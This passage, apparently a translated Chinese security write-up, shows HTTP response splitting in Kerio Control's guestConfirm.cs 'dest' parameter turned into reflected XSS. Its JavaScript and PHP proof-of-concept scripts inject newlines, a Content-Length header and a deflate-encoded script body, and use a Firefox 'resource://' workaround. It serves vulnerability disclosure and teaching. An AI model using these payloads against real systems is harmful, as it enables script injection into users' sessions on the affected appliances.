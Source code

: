   
成功了！在这种情况下，HTTP 响应被成功“拆分”为一个或多个消息，并且除了任何 HTTP 标头之外，我们还可以在 HTTP 响应主体中注入任意数据！例如，在上面的 HTTP 响应中，“ Location ”是最后一个 HTTP 标头，而 HTTP 响应主体从“ Test\r\nPragma… ”开始，到“ Test</a> ”结束。  
  
**漏洞利用**  
  
所以我们现在能够执行HTTP 响应拆分攻击...让我们尝试将其转变为反射型跨站点脚本 (XSS)攻击，因为我们可以在 HTTP 响应正文中注入任意 HTML 标记。  
  
我做的第一件事是制作以下 HTML 页面：  
  
```
<script>
 target = "192.168.123.64"; // IP address / hostname of the Kerio Control instance
 payload = "\n\n<script>alert('XSS on ' + document.domain)<\/script>";
 location.href = "https://" + target + ":4081/nonauth/guestConfirm.cs?dest=" + encodeURIComponent(btoa(payload));
</script>
```  
  
  
它在 Google Chrome 上运行良好，但在 Firefox 上却不行...🤔 因此，我谷歌了一下，找到了这篇2020 年的博客文章，它基本上指出，当受害者用户使用 Firefox 时，可以滥用某些 URI 方案在 302 HTTP 响应中执行 XSS 负载。  
  
因此，我按以下方式修改了上述概念验证脚本：  
  
```
<script>
 target = "192.168.123.64"; // IP address / hostname of the Kerio Control instance
 payload = (navigator.userAgent.includes("Firefox")) ? "resource://xss" : "";
 payload += "\n\n<script>alert('XSS on ' + document.domain)<\/script>";
 location.href = "https://" + target + ":4081/nonauth/guestConfirm.cs?dest=" + encodeURIComponent(btoa(payload));
</script>
```  
  
  
这个在 Google Chrome 和 Firefox 上都有效：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tafvNNPro3U94hmWjgE4Ro15nITqobgVtGs6shWicK3uG6HPGcicUnI7gqh6fD5vqDP8nb9QicGW830Hg/640?wx_fmt=png&from=appmsg "")  
  
此时，我决定联系GFI Software报告这些发现，包括上述概念验证脚本。直到那之后，我才意识到这个脚本只有在使用代理工具（如Burp Suite ，我在测试这些漏洞时使用它）时才会起作用。这是因为响应中设置了“ Content-Encoding ”HTTP 标头，它将指示浏览器使用Deflate作为解压缩方法来解码 HTTP 响应主体——使用 Burp 时会自动完成此操作。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tafvNNPro3U94hmWjgE4Ro15nflXHEm7lS5DPbIwibSw4qnqabaMfibYJ19oS4nJRwwqiammeKBuicGwYA/640?wx_fmt=png&from=appmsg "")  
  
请注意，“ Content-Encoding ”标头在“ Location ”标头之前设置，这意味着我们不能忽略它，我们必须处理它。嗯，这很容易：只需使用Deflate算法对有效负载（或者更确切地说，响应主体）进行编码！🙃  
  
因此，我们可以将概念证明重写为以下 PHP 脚本：  
  
```
<?php
$target = "192.168.123.64"; # IP address / hostname of the Kerio Control instance
$body = "<script>alert('XSS on ' + document.domain)</script>";
$body = zlib_encode($body, ZLIB_ENCODING_DEFLATE);
$payload = (preg_match("/Firefox/", $_SERVER["HTTP_USER_AGENT"])) ? "resource://xss" : "";
$payload .= "\nContent-Length: " . strlen($body);
$payload .= "\n\n{$body}";

header("Location: https://{$target}:4081/nonauth/guestConfirm.cs?dest=" . urlencode(base64_encode($payload)));

?>
```  
  
